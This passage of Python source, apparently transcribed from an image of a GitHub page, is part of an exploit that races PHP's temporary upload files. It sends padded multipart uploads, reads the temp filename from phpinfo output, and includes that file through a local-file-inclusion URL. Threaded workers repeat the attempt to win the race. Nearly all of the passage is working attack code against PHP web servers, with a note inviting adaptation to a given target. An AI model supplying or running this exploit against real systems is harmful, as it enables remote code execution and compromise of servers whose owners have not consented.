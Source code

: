 			HTTP_PRAGMA: """+padding+"""\r
			Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
			Content-Length: %s\r
			Host: %s\r
			\r
			%s""" %(len(REQ1_DATA),host,REQ1_DATA)
				#modify this to suit the LFI script   
				LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
			User-Agent: Mozilla/4.0\r
			Proxy-Connection: Keep-Alive\r
			Host: %s\r
			\r
			\r
			"""
				return (REQ1, TAG, LFIREQ)

			def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
				s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
				s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

				s.connect((host, port))
				s2.connect((host, port))

				s.send(phpinforeq)
				d = ""
				while len(d) < offset:
					d += s.recv(offset)
				try:
					i = d.index("[tmp_name] =&gt; ")
					fn = d[i+17:i+31]
				except ValueError:
					return None

				s2.send(lfireq % (fn, host))
				d = s2.recv(4096)
				s.close()
				s2.close()

				if d.find(tag) != -1:
					return fn

			counter=0
			class ThreadWorker(threading.Thread):
				def __init__(self, e, l, m, *args):
					threading.Thread.__init__(self)
					self.event = e
					self.lock =  l
					self.maxattempts = m
					self.args = args

				def run(self):
					global counter
					while not self.event.is_set():
						with self.lock:
							if counter >= self.maxattempts:
								return
							counter+=1
